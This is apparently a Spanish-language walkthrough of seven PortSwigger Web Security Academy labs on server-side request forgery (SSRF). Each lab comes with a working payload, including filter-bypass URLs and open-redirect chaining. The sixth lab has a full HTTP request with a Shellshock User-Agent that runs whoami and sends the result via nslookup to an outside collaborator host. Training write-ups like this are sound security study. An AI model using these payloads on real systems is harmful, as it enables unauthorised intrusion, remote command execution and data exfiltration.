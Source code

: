 ## Reto 1: SSRF básico contra el servidor local

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, cambie la URL de verificación de existencias para acceder a la interfaz de administración en http://localhost/adminy eliminar el usuario carlos.

Explotamos una vulnerabilidad SSRF en la funcionalidad de stock. Ya demostramos que era posible acceder al panel de administración interno, y ahora profundizamos en cómo automatizar la interacción con rutas internas específicas.

El objetivo en esta parte es enviar una solicitud manipulada desde el parámetro vulnerable para ejecutar una acción concreta: eliminar al usuario carlos desde el panel de administración. Esto demuestra cómo un SSRF básico puede escalar rápidamente en impacto si se accede a funciones internas críticas del servidor.

```
stockApi=http://localhost/admin/delete?username=carlos
```

## Reto 2: SSRF básico contra otro sistema back-end

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, utilice la función de verificación de existencias para escanear el interior 192.168.0.X rango para una interfaz de administrador en el puerto 8080, luego úsalo para eliminar al usuario carlos. 

Aprovechamos la funcionalidad de verificación de stock para lanzar un escaneo controlado dentro del rango 192.168.0.X, variando la última parte de la IP.

Una vez identificamos qué IP responde en el puerto 8080 con una interfaz de administración accesible, manipulamos el parámetro vulnerable para interactuar con ella y ejecutar una petición que elimina al usuario carlos.


```
stockApi=http://192.168.0.80:8080/admin/delete?username=carlos
```

## Reto 3: SSRF ciega con detección fuera de banda

Este sitio utiliza un software de análisis que obtiene la URL especificada en el encabezado Referer cuando se carga una página de producto.

Para resolver el laboratorio, utilice esta funcionalidad para generar una solicitud HTTP al servidor público Burp Collaborator. 

En esta clase continuamos con el estudio de ataques SSRF, pero en este caso nos enfrentamos a una variante ciega donde no obtenemos respuesta directa de la interacción. Aprovechamos una funcionalidad del sistema que realiza peticiones basadas en el valor del encabezado Referer, utilizado por un software de analítica interna.

Manipulamos este encabezado para incluir un dominio generado por Burp Collaborator, lo que permite detectar si el servidor realiza una solicitud saliente hacia dicho dominio. Aunque no veamos resultados en la respuesta de la aplicación, los logs de Burp Collaborator nos confirman que se ha producido una interacción, validando así la existencia de la vulnerabilidad. 

```html
Referer: https://e3in67nfsxrvz0qy88nx5ojwonuei56u.oastify.com
```

## Reto 4: SSRF con filtro de entrada basado en lista negra

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, cambie la URL de verificación de existencias para acceder a la interfaz de administración en http://localhost/admin y eliminar el usuario carlos.

El desarrollador ha implementado dos defensas anti-SSRF débiles que deberás evitar. 

centrándonos en cómo evadir defensas basadas en listas negras. La aplicación impide directamente ciertas direcciones como 127.0.0.1 y rutas sensibles como /admin, pero estas restricciones son débiles.

Utilizamos técnicas de evasión como redirecciones a direcciones IP alternativas (por ejemplo, 127.1) y codificación doble de caracteres (%2561 en lugar de a) para engañar al filtro.

```
stockApi=http://127.0.1/%2561dmin/delete?username=carlos
```

## Reto 5:SSRF con omisión de filtro mediante vulnerabilidad de redirección abierta

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, cambie la URL de verificación de existencias para acceder a la interfaz de administración en http://192.168.0.12:8080/adminy eliminar el usuario carlos.

El verificador de acciones se ha restringido para acceder únicamente a la aplicación local, por lo que primero deberá encontrar una redirección abierta que afecte a la aplicación. 

onde el stock checker sólo permite acceder a rutas internas de la propia aplicación, bloqueando directamente URLs externas. Sin embargo, identificamos una vulnerabilidad de redirección abierta en el parámetro path del endpoint ‘nextProduct’.

Aprovechamos esta redirección para hacer que el stock checker acceda de forma indirecta al panel de administración interno ubicado en http://192.168.0.12:8080/admin. Desde ahí, utilizamos la misma técnica para construir una URL que elimine al usuario carlos, completando así el laboratorio.

```
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```

## Reto 6: SSRF ciego con explotación de Shellshock

Este sitio utiliza un software de análisis que obtiene la URL especificada en el encabezado Referer cuando se carga una página de producto.

Para resolver el laboratorio, use esta funcionalidad para realizar un ataque SSRF ciego contra un servidor interno en el 192.168.0.X rango en el puerto 8080. En el ataque ciego, utilice una carga útil Shellshock contra el servidor interno para exfiltrar el nombre del usuario del sistema operativo. 

En este laboratorio donde el SSRF se combina con la vulnerabilidad Shellshock para ejecutar comandos remotos en un sistema interno. Aprovechamos el hecho de que la aplicación realiza peticiones HTTP a la URL indicada en el header Referer, y que estas peticiones incluyen la cabecera User-Agent, la cual podemos manipular.

Empleamos Burp Collaborator para generar un payload que, al ser ejecutado, filtra el nombre del usuario del sistema mediante una consulta DNS. Este payload es inyectado en el User-Agent usando la sintaxis de Shellshock, y el ataque se lanza desde Burp Intruder variando la IP interna objetivo (192.168.0.X) en el Referer.

Al finalizar, revisamos las interacciones en el Collaborator y recuperamos el nombre del usuario directamente desde el subdominio que llega en la consulta DNS.

```html
GET /product?productId=1 HTTP/2

Host: 0a49008d04099b2982c5c97c004e0047.web-security-academy.net

Cookie: session=8tVbTH6uMIzo42lUDPYTZGa1GhPOgaHh

Sec-Ch-Ua: 

Sec-Ch-Ua-Mobile: ?0

Sec-Ch-Ua-Platform: ""

Upgrade-Insecure-Requests: 1

User-Agent: () { :; }; /usr/bin/nslookup $(whoami).222b5vm3rlqjyopm7wml4ciknbt2h05p.oastify.com

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://192.168.0.§X§:8080

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9
```

## Reto 7:SSRF con filtro de entrada basado en lista blanca

Este laboratorio tiene una función de verificación de existencias que obtiene datos de un sistema interno.

Para resolver el laboratorio, cambie la URL de verificación de existencias para acceder a la interfaz de administración en http://localhost/admin y eliminar el usuario carlos.

El desarrollador ha implementado una defensa anti-SSRF que deberás evitar. 
Se ha implementado una defensa basada en lista blanca para mitigar ataques SSRF. A pesar de esta protección, conseguimos acceder a un endpoint interno aprovechando cómo el servidor interpreta las URLs con credenciales embebidas.

Comenzamos probando distintas variantes del parámetro ‘stockApi‘, observando cómo la aplicación extrae y valida el hostname. Tras verificar que se aceptan URLs con formato de usuario, utilizamos técnicas de doble codificación para manipular el valor del hostname y hacer que el servidor interprete la URL de forma diferente a como lo hace la validación.

Gracias a esto, logramos redirigir la petición al endpoint de administración alojado en ‘localhost‘, y ejecutamos la acción de eliminar al usuario objetivo. 

```
stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```


